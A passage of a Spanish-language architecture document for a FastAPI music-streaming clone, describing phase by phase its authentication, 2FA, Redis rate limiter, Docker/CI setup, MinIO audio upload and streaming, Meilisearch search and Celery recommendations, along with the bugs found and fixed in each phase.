

# Arquitectura

> Este documento se construye de forma incremental, fase a fase. Cada sección se completa cuando
> la fase correspondiente del roadmap (ver `README.md`) se implementa.

## Resumen

API FastAPI con autenticación JWT (Fase 1). Endpoints en `app/api/auth.py`:

- `POST /auth/register` — crea usuario (409 si el email ya existe).
- `POST /auth/login` — valida credenciales, devuelve un access token JWT (bearer, ~30 min) en el
  body y setea el refresh token como cookie `httpOnly`.
- `POST /auth/refresh` — rota el refresh token (revoca el usado, emite uno nuevo); detecta reuso
  de un token ya rotado y revoca toda la sesión como medida de seguridad.
- `POST /auth/logout` — revoca el refresh token actual.
- `GET /auth/me` — devuelve el usuario autenticado (requiere `Authorization: Bearer <access_token>`).

Persistencia en Postgres vía SQLAlchemy 2.0 (`app/models/user.py`: `User`, `RefreshToken`),
migraciones con Alembic. 13 tests (`tests/test_auth.py`) corriendo contra una base de datos
Postgres real (no mocks/SQLite), incluyendo rotación, detección de reuso, expiración real y una
race condition de dos refresh simultáneos con el mismo token.

**Fase 2 — UI mínima + toggle de premium.** UI servida como estáticos en `/`
(`app/static/index.html`, `app.js`, `style.css`): tres vistas (cargando, auth con login+registro,
dashboard) en una sola página, sin framework ni build tooling. Endpoint de toggle de premium en
`app/api/users.py`, protegido con la misma dependencia `get_current_user` de Fase 1 (en Fase 3 se
reemplaza por `activate`/`deactivate`, ver abajo). Nueva columna `is_premium` en `User`
(migración `e43601f7d62c`). 8 tests nuevos (`tests/test_users.py`, `tests/test_main.py`) —
incluyen rechazo de payload inválido (422) y una regresión que verifica que el mount de estáticos
en `/` no tapa las rutas de `/auth/*` ni `/health`.

Verificación manual en navegador real (no solo tests): flujo completo conducido con Playwright
headless + capturas de pantalla — primera visita sin parpadeo, registro con auto-login, toggle de
premium con estado de carga correcto, recarga de página con silent refresh manteniendo la sesión
y el estado premium, logout, error de credenciales incorrectas, error de email duplicado con
link a login. Esta verificación encontró y permitió corregir un bug real que los tests
automatizados no habían cubierto: el botón de toggle mostraba el label equivocado tras un cambio
exitoso (ver `withLoading` en `app/static/app.js`).

**Fase 3 — 2FA (TOTP).** Nuevo router `app/api/totp.py` (`POST /2fa/setup`, `POST /2fa/verify`):
secreto generado con pyotp, cifrado con Fernet y guardado en `User.totp_secret_encrypted`;
confirmación con un código válido marca `totp_confirmed_at`. `PATCH /users/me/premium` de Fase 2
se **reemplaza** por `POST /users/me/premium/activate` (contraseña + código TOTP, exige 2FA ya
confirmado) y `POST /users/me/premium/deactivate` (simple, como antes) en `app/api/users.py`.
Lockout ad-hoc en Postgres (5 intentos fallidos → 15 min de bloqueo, columnas
`totp_failed_attempts`/`totp_locked_until`), compartido entre ambos endpoints que verifican un
código, protegido con `SELECT ... FOR UPDATE` (`lock_user_for_totp_check`) — sin esto, intentos
concurrentes pierden incrementos del contador y neutralizan el lockout, mismo patrón que la race
condition de refresh tokens en Fase 1. 21 tests nuevos (`tests/test_totp.py`,
`tests/test_users.py` reescrito) — código válido, incorrecto, dentro/fuera de la ventana de
tolerancia (con `counter_offset` de pyotp para que el borde del step sea determinista, no
segundos de reloj), doble setup (409), fallo controlado de descifrado, y una prueba de
concurrencia real (5 hilos, mismo token) que confirma que el lockout no se puede saltear.

Verificación manual: flujo completo con `curl` generando códigos reales vía pyotp, y en navegador
real con Playwright. Esa verificación encontró y corrigió un bug real de CSS: una clase
`.field-stack { display: flex }` tenía la misma especificidad que la regla `[hidden]` del
navegador y ganaba por ser CSS de autor, dejando visibles secciones de la UI que debían estar
ocultas (arreglado con `.field-stack:not([hidden])`). La ronda de revisión posterior encontró
además que la primera versión del fix de concurrencia (`SELECT ... FOR UPDATE` sin
`populate_existing=True`) bloqueaba la fila en Postgres correctamente pero SQLAlchemy seguía
devolviendo el objeto Python ya cacheado en el identity map de la sesión (con el contador
desactualizado) — el test de concurrencia lo detectó de inmediato.

**Fase 4 — Calidad de código local.** Config centralizada en `pyproject.toml` nuevo: ruff
(`E`, `F`, `I`, `UP`, `B`, `SIM`, `C4`), black, mypy en modo `--strict` completo, pytest y
coverage. `requirements-dev.txt` nuevo separa herramientas de desarrollo (pytest, httpx,
pytest-cov, ruff, black, mypy, pre-commit) de `requirements.txt` (solo runtime). `.pre-commit-config.yaml`
nuevo con hooks de higiene + ruff + black + mypy (hook local, no el mirror oficial — ver
Decisiones técnicas).

Corregir mypy `--strict` sobre las ~25 archivos ya escritos en Fases 1-3 fue, con diferencia, la
parte que más trabajo dio: 61 errores en la primera corrida, la gran mayoría (`no-untyped-def`)
en funciones de test sin `-> None` y fixtures de `conftest.py` sin tipar, más dos casos reales en
`app/` (`decode_access_token` devolviendo `dict` sin parámetros genéricos; `decrypt_totp_secret`
recibiendo un `str | None` sin narrowing en `app/api/users.py`, resuelto con un chequeo explícito
sobre la fila ya bloqueada, no solo para satisfacer al type-checker). Cero uso de `# type: ignore`
— no hizo falta ninguno. *(Corrección posterior, Fase 5: el resumen original decía que ni
`pyotp` ni `qrcode` necesitaban el override de `ignore_missing_imports` — impreciso. Verificado de
nuevo: `pyotp` sí viene tipado y no lo necesita, pero `qrcode` no publica stubs/`py.typed` y mypy
falla sin el override. El override para `qrcode.*` se mantiene en `pyproject.toml`, el de
`pyotp.*` se quitó por innecesario.)*

Cobertura real medida: **94%** (`pytest --cov=app`), sin umbral obligatorio todavía (ver
Decisiones técnicas). Los huecos son en su mayoría ramas de error poco alcanzables en tests
unitarios (`app/db/session.py` 69%, la construcción del engine/sesión en sí) y algunas líneas de
`app/api/auth.py`/`app/core/config.py`.

**Fase 5 — CI (GitHub Actions).** `.github/workflows/ci.yml` reemplaza el stub inerte de Fase 0:
corre en cada Pull Request contra `main` y en cada push a `main` (`concurrency` con
`cancel-in-progress` para no duplicar runs), matriz `python-version: ["3.10", "3.11", "3.12"]`,
servicio Postgres (`postgres:16-alpine`, mismas credenciales que `docker-compose.yml`). Mismos
pasos que el hook de pre-commit de Fase 4 más `alembic upgrade head` y `pytest --cov-fail-under=85`,
ahora obligatorios en cada PR, no solo en un hook local que depende de que el venv esté activado.

Toda la secuencia de comandos (crear `spotify_clone_test`, migrar, ruff, black, mypy, pytest con
`--cov-fail-under=85`) se verificó localmente contra Postgres real antes de pushear, incluyendo
una prueba aislada de la lógica de `CREATE DATABASE` (con `autocommit=True`, requisito de
Postgres para ese comando) contra una base de datos descartable, sin tocar el `spotify_clone_test`
real de desarrollo.

Este es el primer push del proyecto a GitHub (`origin/main` solo tenía el commit inicial de
scaffolding de agentes hasta ahora): se verificó explícitamente con
`git log --all --full-history -- .env` que `.env` nunca se trackeó en ninguno de los 5 commits de
Fases 0-4, antes de hacerlos públicos por primera vez.

**Fase 6 — Rate limiter con Redis (token bucket).** Nuevo `app/core/rate_limiter.py`:
`RateLimitMiddleware` (`BaseHTTPMiddleware` de Starlette, único middleware de la app, registrado
en `app/main.py`) que limita `POST /auth/login`, `POST /auth/register` y `POST /2fa/setup` (tier
`sensitive`: capacidad 5, refill 1/12s) y el resto de `/auth/*`, `/users/*`, `/2fa/*` (tier
`general`: capacidad 60, refill 1/s). Identidad: `user_id` del access token si la request va
autenticada (decodificado sin tocar la DB), IP del cliente si no. El estado del bucket
(`tokens`, `last_refill`) vive en un hash de Redis por identidad, leído/calculado/escrito
atómicamente en un único script Lua (`EVAL`) — evita el mismo tipo de *lost update* concurrente ya
corregido en Postgres en Fases 1 y 3. Al superarse el límite, `429` con cabeceras
`X-RateLimit-Limit`/`X-RateLimit-Remaining`/`X-RateLimit-Reset` (añadidas en toda respuesta que
pasa por el limiter y sí llega a evaluarse contra Redis, no solo el 429 — **excepto en fail-open**:
si Redis no responde, `dispatch` retorna antes de construir esas cabeceras, así que una respuesta
que pasó "gracias" al fail-open no las lleva). Si Redis no responde, la request pasa igual
(fail-open, ver Decisiones técnicas y Riesgos conocidos).

Nuevo servicio `redis` en `docker-compose.yml` y en `.github/workflows/ci.yml` (mismo patrón que
`postgres`). 8 tests (`tests/test_rate_limiter.py`) contra Redis real (`FLUSHDB` autouse en
`tests/conftest.py`, mismo patrón que el `TRUNCATE` de Postgres): cabeceras en requests permitidas,
bloqueo al superar los tiers `sensitive` y `general`, buckets independientes por identidad,
identidad por `user_id` y no por IP cuando hay token en un endpoint autenticado, un Bearer propio
adjuntado a `/auth/login` sigue cayendo en el bucket por IP (regresión del bug de bypass, ver
abajo), refill simulado manipulando `last_refill` directamente en Redis (sin esperar en tiempo
real), y fail-open verificado con una `RateLimitMiddleware` aislada apuntando a una URL Redis
inválida. Los tests de lockout de TOTP ya existentes
(`test_verify_lockout_after_five_failed_attempts`,
`test_verify_concurrent_wrong_attempts_lockout_not_bypassed`) se ampliaron para afirmar también el
`detail` del 429 (`"Inténtalo de nuevo en..."`), no solo el código de estado — demuestra que ese
429 lo dispara el lockout de TOTP y no el rate limiter genérico.

**Bug real #1, encontrado y corregido durante la implementación**: la primera versión usaba
`redis.asyncio.Redis`, creado una única vez en `RateLimitMiddleware.__init__` sobre el `app`
singleton. Ese cliente async queda ligado al event loop activo la primera vez que se usa; en los
tests, cada `TestClient(app)` (fixture `client`, sin `with` explícito) puede acabar corriendo la
app ASGI en un event loop distinto, dejando la conexión Redis cacheada huérfana y lanzando
`RuntimeError: Event loop is closed` en requests posteriores — excepción que el propio `except
Exception` de fail-open tragaba en silencio, convirtiendo 429 esperados en 401 inesperados en los
tests. Diagnosticado como riesgo real de arquitectura (no solo un artefacto de test: cualquier
escenario con más de un event loop activo en el proceso lo dispararía), corregido cambiando a un
cliente `redis.Redis` **síncrono** despachado vía `starlette.concurrency.run_in_threadpool`, sin
afinidad a ningún event loop.

**Bug real #2, encontrado en la ronda de revisión Agent Teams posterior a la implementación** (por
Security y por el abogado del diablo, de forma independiente): `_resolve_identity` usaba
`user:` siempre que hubiera un Bearer válido, sin importar el endpoint. Pero `/auth/login` y
`/auth/register` no usan ese header para autenticar — lo ignoran por completo. Un atacante podía
adjuntar un access token de una cuenta propia a sus intentos de login contra una víctima y así
mover ese tráfico del bucket `ip:<atacante>` a un bucket `user:<atacante>` aparte; registrando N
cuentas conseguía N buckets `sensitive` independientes contra el mismo endpoint, amplificando por
N el límite que ese tier existe para imponer — precisamente el vector de fuerza bruta que esta
fase debía cerrar, y en contradicción directa con el diseño documentado ("por IP del cliente" para
login/registro). Corregido forzando identidad por IP (`force_ip=True`, ignorando cualquier Bearer)
específicamente para `POST /auth/login` y `POST /auth/register` (`_IP_ONLY_ENDPOINTS` en
`app/core/rate_limiter.py`) — `/2fa/setup`, el tercer endpoint `sensitive`, sí exige autenticación
real para llegar al handler, así que ahí bucketear por `user_id` sigue siendo correcto y
deliberado. Cubierto por
`tests/test_rate_limiter.py::test_login_with_bearer_token_still_rate_limited_by_ip`.

**Corrección adicional de la misma ronda de revisión** (Security y Backend, de forma
independiente): el `except Exception` de fail-open envolvía también el parseo del resultado del
script Lua (`int(result[0])`, `float(result[1])`), no solo la llamada a Redis. Un bug de
programación propio en esa ruta (ej. un cambio futuro en lo que devuelve el Lua) se habría
enmascarado como "Redis caído" y degradado en silencio a fail-open, en vez de fallar de forma
visible. Corregido estrechando el `except` a `redis.RedisError` únicamente alrededor de la llamada
a Redis (`run_in_threadpool`); el parseo, fuera del `try`, ahora sí propagaría como error real si
algo cambiara ahí.

**Fase 7 — Contenedores (Docker, docker-compose, healthchecks).** Nuevo `Dockerfile`
(multi-stage): etapa `builder` instala solo `requirements.txt` (nunca `requirements-dev.txt`) en
un virtualenv en `/opt/venv`; etapa final copia únicamente ese venv ya construido + `app/` +
`alembic.ini`, corre como usuario no-root (`useradd --system`), con `HEALTHCHECK` propio (un
one-liner de Python contra `GET /health`, sin depender de `curl`). `ENTRYPOINT` nuevo
(`docker/entrypoint.sh`) aplica `alembic upgrade head` antes de `exec`utar el `CMD`
(`uvicorn app.main:app`), así que el contenedor migra solo al arrancar. Nuevo servicio `app` en
`docker-compose.yml`, con `depends_on: condition: service_healthy` sobre `postgres`/`redis` — el
"healthcheck cruzado" que se lleva prometiendo desde la Fase 1 — y `DATABASE_URL`/`REDIS_URL`
sobreescritas a los hostnames internos de compose (`postgres`/`redis`) en vez de `localhost`.
Nuevo job `docker` en CI (`needs: test`): construye la imagen y la arranca de verdad contra
postgres/redis reales de CI (`--network host`), esperando `GET /health` con reintentos antes de
darlo por bueno — un smoke test real, no solo "el Dockerfile tiene sintaxis válida". **Matiz
importante encontrado en la ronda de revisión post-implementación (abogado del diablo)**:
`GET /health` es un chequeo de *liveness* puro (`app/main.py`) — no toca Postgres ni Redis en
runtime, solo demuestra que el proceso de `uvicorn` está vivo. La conexión a Postgres sí queda
probada indirectamente (el `ENTRYPOINT` migra antes de arrancar; si Postgres fallara, el contenedor
ni llegaría a servir `/health`), pero Redis no se ejercitaba en absoluto — y al ser el rate limiter
fail-open (Fase 6), un `REDIS_URL` roto habría pasado el smoke test igual, en silencio. Corregido
añadiendo un segundo paso que hace `POST /auth/register` y exige la cabecera `X-RateLimit-Limit`
en la respuesta — esa cabecera solo se añade en el camino feliz del rate limiter (Redis respondió
con éxito), nunca en fail-open, así que su ausencia expone un Redis inalcanzable que `/health` por
sí solo no habría detectado.

Verificación manual (no solo automatizada): `docker compose up -d --build` con los tres servicios
`healthy`, y el flujo completo registro → login → `/2fa/setup` → `/2fa/verify` → activar premium →
`GET /auth/me` probado por primera vez contra la imagen de producción real, no contra el proceso
de desarrollo local de siempre. También se verificó explícitamente que `pip list` dentro de la
imagen no incluye pytest/ruff/black/mypy, y que el proceso corre como usuario no-root.

**Bug real encontrado durante la propia verificación de esta fase** (no en la ronda de revisión de
Agent Teams, sino al ejecutar los comandos de verificación del plan): `docker run --rm <imagen>
pip list` y `docker run --rm <imagen> whoami` fallaban silenciosamente, porque `docker run <imagen>
<comando>` sustituye el `CMD`, no el `ENTRYPOINT` — `docker/entrypoint.sh` seguía ejecutándose
primero e intentando `alembic upgrade head`, que requiere `JWT_SECRET_KEY`/`TOTP_ENCRYPTION_KEY`
válidas (import eager de `app.core.config.settings` desde `env.py`, acoplamiento preexistente de
Fase 1: instanciar `Settings()` valida TODAS las variables, no solo las que usa cada comando
concreto) para poder siquiera importar el módulo. Sin esas variables (no se pasaron en esos
`docker run` sueltos de introspección), el contenedor fallaba con un `ValidationError` antes de
llegar a `pip list`/`whoami`. Además, el primer intento de verificar esto con un `grep` sobre la
salida enmascaró el fallo real como si fuera un "OK" (el patrón buscado —
`pytest|ruff|black|mypy`— no aparecía en el traceback de error, así que el `|| echo "OK"` de la
propia verificación se disparó por la razón equivocada). Corregido usando
`docker run --rm --entrypoint pip/whoami <imagen> ...` para esos chequeos de introspección
(que no necesitan migrar nada), re-verificado con salida real esta vez. No es un bug del
`Dockerfile` en sí — el camino real (`docker compose up`, con todas las variables presentes vía
`env_file`) siempre funcionó — pero sí una lección sobre cómo `ENTRYPOINT` interactúa con `docker
run <comando>` y sobre no confiar en un pase de verificación cuyo propio mecanismo de comprobación
(`grep` + `||`) puede enmascarar el fallo que se supone que debía detectar.

**Fase 8 — Subida y transcodificación de audio (ffmpeg, MinIO).** Primer dominio real del
"Spotify clone": nuevo modelo `Song` (`app/models/song.py`), router `app/api/songs.py`
(`POST /songs`, `GET /songs`, `GET /songs/{id}`), y primer uso real de `app/services/` —
`storage.py` (cliente `boto3` contra MinIO) y `transcode.py` (wrappers `subprocess` sobre
`ffmpeg`/`ffprobe`, binarios de sistema instalados aparte, no paquetes pip). Flujo síncrono dentro
del propio request: se lee el archivo con límite de 20MB, se valida con `ffprobe` (la validación
real de "es audio de verdad", nunca el `Content-Type` del cliente), se sube el original a MinIO,
se transcodifica a mp3 192kbps, se sube el transcodificado, y se actualiza el estado de la fila
(`processing` → `ready`/`failed`). **Contrato de la API a tener en cuenta**: `POST /songs`
devuelve `201` en cuanto el archivo se valida como audio real (incluso si algo falla DESPUÉS, en
la subida a MinIO o la transcodificación) — el código HTTP por sí solo no garantiza
`status="ready"`; el cliente debe mirar el campo `status` del cuerpo de la respuesta. Solo un
archivo que `ffprobe` rechaza de entrada (nunca llega a crear una fila) da `422`. Catálogo público:
cualquier usuario autenticado ve cualquier canción, no solo las propias. Nuevo servicio `minio` en
`docker-compose.yml` y capa `apt-get
install ffmpeg` en el `Dockerfile` (creció la imagen 467MB, de ~600MB a 1.06GB — cuantificado con
`docker history`, no solo estimado). 9 tests nuevos (`tests/test_songs.py`) contra MinIO y ffmpeg
reales (fixture que genera un tono de 1s con `ffmpeg -f lavfi`, nada de fixtures binarias
commiteadas), incluyendo descargar el objeto transcodificado de MinIO y volver a pasarlo por
`ffprobe` para confirmar que es audio válido de verdad, no solo que "algo" se subió, y (añadidos en
la ronda de revisión post-implementación) una prueba que fuerza un fallo a mitad del pipeline y
otra que ejercita el límite de tamaño por chunks en aislamiento, sin pasar por HTTP.

**La ronda de revisión Agent Teams sobre el PLAN (antes de escribir código) encontró y corrigió 4
bloqueantes** — el nivel de rigor más alto de cualquier fase hasta ahora en este proyecto:
1. **Creación del bucket con TOCTOU**: la primera versión del plan creaba el bucket perezosamente
   (`head_bucket` + `create_bucket` en el primer request) — dos primeras-subidas concurrentes
   verían ambas 404 y ambas llamarían `create_bucket`, y MinIO devolvería `BucketAlreadyOwnedByYou`
   al perdedor sin que el código lo manejara. Corregido creando el bucket una única vez al arrancar
   (evento `startup` de FastAPI / fixture de sesión en tests), no perezosamente.
2. **Object key derivada del nombre de archivo del cliente**: la primera versión del plan decía
   "nombre de archivo saneado" sin mecanismo concreto — `file.filename` es dato controlado por el
   atacante. Corregido a una key fija y predecible (`original/{song.id}/source`, sin extensión),
   sin depender de ningún dato del cliente.
3. **Prefijo del rate limiter incompleto**: `_RATE_LIMITED_PREFIXES` iba a llevar `"/songs/"` (con
   barra final, como `/auth/`/`/users/`/`/2fa/`), pero `POST /songs`/`GET /songs` son exactamente
   ese path sin barra — `"/songs".startswith("/songs/")` es `False`, así que la colección (el
   endpoint de subida) habría quedado sin límite. Corregido a `"/songs"` sin barra.
4. **`mypy --strict` habría roto con `boto3`** (sin stubs inline) si no se hubiera añadido
   `boto3-stubs[s3]` a `requirements-dev.txt` — encontrado en la revisión antes de escribir una
   sola línea de `app/services/storage.py`.

Además, la propia implementación (no la revisión) documentó y aceptó explícitamente: `subprocess`
siempre con lista de argumentos (nunca `shell=True`) y `timeout=` explícito en `ffmpeg`/`ffprobe`
(30s/300s) para que un archivo malformado no cuelgue un hilo indefinidamente; y el límite de 20MB
tiene alcance parcial honesto (Starlette ya vuelca el multipart completo a un
`SpooledTemporaryFile` propio antes de que el código de la app pueda cortar — el límite acota el
procesamiento/persistencia propios, no la recepción inicial de Starlette).

**La ronda de revisión POST-implementación (sobre el código ya escrito, no el plan) encontró un
bug real más**: `app/services/storage.py` ya tenía `delete_object()` con un docstring que decía
"usada... en caso de fallo a mitad del pipeline", pero el `except` de `upload_song` nunca la
llamaba — si el original ya se había subido a MinIO y la transcodificación fallaba después, ese
objeto quedaba huérfano en el bucket para siempre (sin relación con el riesgo ya documentado de
filas atascadas en `status="processing"`, que es sobre Postgres, no sobre MinIO). Corregido:
`upload_song` ahora registra qué keys llegó a subir con éxito y las borra (best-effort) en el
`except` antes de marcar `status="failed"`. Cubierto por un test nuevo
(`test_upload_failure_mid_pipeline_marks_failed_and_cleans_up_orphan`, con `transcode_to_mp3`
parcheado para fallar a propósito) que verifica tanto la respuesta como que el objeto
efectivamente ya no existe en MinIO. De paso se aplicaron dos mejoras menores encontradas en la
misma revisión: `db.flush()` en vez de un primer `commit()` al crear la fila (evita un round-trip
extra y la ventana en la que otra transacción podría leer `original_object_key=""`), y el parseo
de `Content-Length` ahora tolera un header malformado (antes un valor no numérico habría dado un
`ValueError` sin capturar → 500 en vez de simplemente ignorar el atajo y seguir con la lectura por
chunks, que es la defensa real).

**Bug real encontrado durante la propia verificación de esta fase** (no en la ronda de revisión,
sino al probar manualmente qué pasaba si MinIO no estaba disponible al arrancar): el cliente
`boto3` usa por defecto timeouts de decenas de segundos, así que `ensure_bucket_exists()` en el
evento `startup` de FastAPI dejaba el arranque de **toda la app** colgado indefinidamente si MinIO
no respondía — no un fallo rápido, un cuelgue silencioso (verificado ejecutando `uvicorn` con MinIO
parado: el proceso nunca terminaba de arrancar). Esto habría roto también el job `docker` de CI
(que no levanta MinIO, solo Postgres/Redis para su smoke test de `/health`). Corregido en dos
frentes: (a) `Config(connect_timeout=5, read_timeout=10, retries={"max_attempts": 1})` explícito en
el cliente `boto3` de `app/services/storage.py`, y (b) el `lifespan` de `app/main.py` envuelve la
llamada en un `try/except` que loguea y continúa en vez de propagar — mismo principio de fail-open
ya aplicado al rate limiter con Redis en la Fase 6: el resto de la API no debe quedar rehén de la
disponibilidad de MinIO. Re-verificado empíricamente tras el fix: la app arranca y sirve `/health`
en segundos aunque MinIO esté caído (solo `/songs` fallaría).

**Bug real encontrado por el propio CI** (no en local, no en la revisión): el job `docker` de CI
(smoke test de la imagen, sin MinIO real - solo prueba `/health` y `/auth/register`) empezó a
fallar al abrir el PR porque su `env:` nunca ganó las variables `S3_*` nuevas de esta fase — el
validador anti-`change-me` de `s3_access_key`/`s3_secret_key` rechazaba el default de `Settings`
antes de que el `ENTRYPOINT` (que importa `app.core.config` para migrar) llegara siquiera a
arrancar `uvicorn`. El fail-open del `lifespan` (bug anterior de este mismo resumen) no llegaba a
activarse porque el fallo ocurría ANTES, al instanciar `Settings()`, no al llamar
`ensure_bucket_exists()`. Corregido añadiendo `S3_ENDPOINT_URL`/`S3_ACCESS_KEY`/`S3_SECRET_KEY`/
`S3_BUCKET_NAME` (valores CI-only, no MinIO real) al `env:` del job y al pass-through `-e` del
`docker run` — re-verificado localmente simulando el mismo escenario exacto (imagen real,
credenciales S3 válidas, endpoint inalcanzable) antes de repushear: el contenedor arranca
`healthy` y `/health` responde `200`, con el warning de fail-open esperado en los logs.

**Fase 9 — Streaming de audio (Range Requests, control plane vs data plane).** Cierra el hueco que
la Fase 8 dejó a propósito: nuevo endpoint `GET /songs/{id}/stream` que no sirve audio, devuelve
una URL de MinIO firmada temporalmente (`app/services/storage.py`, `generate_presigned_url` +
`SongStreamURL` en `app/schemas/song.py`). Diseño control plane / data plane, tal como ya
prometía el README desde la Fase 0: FastAPI (control plane) solo autoriza
(`Authorization: Bearer` obligatorio, mismo `get_current_user` que el resto de `/songs`, catálogo
público — cualquier usuario autenticado puede pedir el stream de cualquier canción) y firma; MinIO
(data plane) sirve los bytes directo con Range Requests nativo, sin que la API tenga que
reimplementar `Content-Range`/`206 Partial Content`. Siempre firma `transcoded_object_key`, nunca
`original_object_key` (que tiene un content-type no controlado declarado por el uploader) — la key
nunca la aporta el cliente, siempre sale server-side de la fila `Song`. `404` si la canción no
existe, `409` si `status` es `"processing"` o `"failed"`, `500` (chequeo explícito, no un `assert`
— defensa real y necesaria para que `mypy --strict` estreche `str | None` a `str`) si por algún
fallo imprevisto `transcoded_object_key` fuera `None` pese a `status="ready"`.

Nuevo cliente `boto3` separado (`_public_client` en `app/services/storage.py`), firmando contra
`s3_public_endpoint_url` (nueva variable de config, sin validador anti-`change-me` — no es un
secreto) en vez de `s3_endpoint_url` — el primero es el que debe poder resolver el navegador del
cliente (`http://localhost:9000` tanto en venv local como en `docker compose up --build`, ver
Decisiones técnicas), el segundo es el hostname interno de Docker (`minio:9000`) que usa la app
para hablar con MinIO servidor-a-servidor. Verificado end-to-end contra ambos caminos (proceso
local y stack dockerizado completo): en ambos casos la URL firmada apunta correctamente a
`localhost:9000`, resoluble por `curl`/navegador desde el host, y `curl -r 0-1000 <url>` devuelve
`206 Partial Content` real con `Content-Range` correcto.

**Corrección empírica durante la implementación**: el plan de esta fase asumía firma SigV4 en
varios puntos de su razonamiento (justificación de `region_name`, terminología general). La URL
real generada por `boto3.generate_presigned_url` contra MinIO usa el formato clásico de
query-string auth (`?AWSAccessKeyId=...&Signature=...&Expires=...`), que es **SigV2**, no SigV4 —
boto3 no fuerza `SigV4` para un `endpoint_url` custom salvo que se configure explícitamente
`Config(signature_version="s3v4")`, cosa que este plan no hacía. Funciona igual (verificado con
`curl` real, tanto la request completa como el `Range`), así que no se ha forzado SigV4 —
documentado aquí como corrección del razonamiento original, no como bug: el `region_name`
explícito añadido en la revisión del plan sigue siendo inofensivo aunque SigV2 no lo use.

7 tests nuevos en `tests/test_songs.py`: éxito con verificación de `Content-Range` real vía
`httpx.get()` directo contra la URL firmada (no `TestClient`, no mocks — una request HTTP de
verdad contra MinIO), `409` para `"processing"`/`"failed"` (filas creadas directo vía `db_session`,
sin pasar por el pipeline de subida), `404`, `401`, catálogo público (usuario B pide con éxito el
stream de una canción de A), y expiración real (`expires_in=1` + `time.sleep(2)` reales — el TTL
de una firma lo valida el reloj de MinIO server-side, no hay timestamp en Postgres/Redis que
manipular como en fases anteriores).

**Fase 10 — Búsqueda (Meilisearch).** Nuevo endpoint `GET /songs/search` (`app/api/songs.py`,
registrado antes de `GET /songs/{song_id}` en el archivo — Starlette resuelve rutas en orden de
registro, y la validación de `song_id: int` solo ocurre *después* de que una ruta ya hizo match, así
que registrar `/{song_id}` primero habría hecho que `/songs/search` matcheara ahí con
`song_id="search"` en vez de llegar al endpoint de búsqueda). Nuevo módulo
`app/services/search.py`, mismo patrón que `storage.py`/`transcode.py`: cliente
`meilisearch.Client` a nivel de módulo con timeout corto, `ensure_index_exists()` llamado una vez
en el `lifespan` de `app/main.py` (con su propio `try/except` fail-open, mensaje de log separado
del de MinIO), `index_song()` best-effort llamado desde `upload_song` tras terminar el pipeline de
MinIO/ffmpeg (fuera de su `try/except`, ver Decisiones técnicas), y `search_songs()` que sí propaga
errores. Cada canción se indexa con los mismos campos que expone `SongRead`; el endpoint de
búsqueda construye la respuesta directo desde los documentos de Meilisearch, sin volver a consultar
Postgres.

Encontrado empíricamente durante la implementación, no anticipado en el plan: Meilisearch no pudo
auto-inferir la primary key del documento (dos campos terminan en "id": `id`, `uploaded_by_id`),
falló con `index_primary_key_multiple_candidates_found` hasta especificar `primaryKey: "id"`
explícito al crear el índice. También encontrado en implementación: la decisión original del plan
de no publicar el puerto 7700 de Meilisearch al host (hallazgo de la revisión de seguridad del
plan) resultó incompatible con cómo corren los tests de este proyecto — desde el host, contra
infraestructura real, igual que Postgres/Redis/MinIO — y se revirtió tras romper la suite completa
(73 errores de conexión); ver Decisiones técnicas y Riesgos conocidos para el detalle completo del
trade-off.

8 tests nuevos en `tests/test_songs.py`: búsqueda inmediata por título y por artista tras subir
(sin `sleep`/retry — `index_song` espera la task de Meilisearch antes de devolver el control, a
diferencia de la expiración de URLs de la Fase 9), sin resultados devuelve `200` con lista vacía,
canciones `"processing"`/`"failed"` no aparecen en resultados, `401` sin autenticación, `GET
/songs` ya no incluye canciones no-`"ready"`, fallo de indexación (monkeypatch de `index_song`) no
bloquea la subida, y Meilisearch caído al buscar (monkeypatch de `search_songs`) responde `503`.
Verificado también manualmente con `curl` real contra el stack dockerizado completo (subida +
búsqueda inmediata).

**Fase 11 — Recomendaciones precalculadas (Celery).** Nueva tabla `song_plays` (Postgres, log de
eventos append-only, sin UNIQUE — repetir una canción es señal más fuerte, no un duplicado) y nuevo
módulo `app/services/recommendations.py`: `fetch_ready_songs`/`fetch_play_aggregates` consultan
Postgres **una sola vez por ciclo** (no una vez por usuario — ver más abajo),
`rank_recommendations_for_user` es una función **pura** en memoria (afinidad por artista, fallback a popularidad global,
fallback final a más recientes), y `store_recommendations`/`get_recommendations` leen/escriben
Redis. Nuevo `app/worker.py`: app de Celery (broker en `redis://.../1`, DB separada de la que ya
usa el rate limiter) con Beat programado cada 5 min, y la tarea `recompute_all_recommendations` que
recorre todos los usuarios. Nuevo endpoint `GET /users/me/recommendations` (`app/api/users.py`) —
lectura barata contra Redis, nunca calcula nada en vivo. `GET /songs/{id}/stream` (`app/api/songs.py`)
gana un insert best-effort en `song_plays` (nunca bloquea el streaming si falla).

**Rediseño durante la revisión del plan, no un ajuste cosmético**: el diseño original hacía la
agregación de popularidad dentro de una función por-usuario, así que `recompute_all_recommendations`
la repetía una vez por cada usuario — degradaba linealmente con el número de usuarios y el tamaño
de `song_plays`. Se separó en **fetch** (una query total por ciclo, agregada en Python a tres
diccionarios: afinidad por artista, canciones ya reproducidas, plays globales) y **ranking** (función
pura sin Postgres, testeable con estructuras en memoria). También de la revisión: un lock corto en
Redis (`SETNX`-style) contra pases solapados si Beat alguna vez disparara antes de que termine el
anterior; el engine de Postgres del worker se crea **dentro** de la tarea, no a nivel de módulo —
`celery worker` usa el pool `prefork` (`fork()`) por defecto, y un engine creado en el proceso padre
comparte sockets de conexión corruptos entre los hijos (footgun conocido de Celery+SQLAlchemy); y
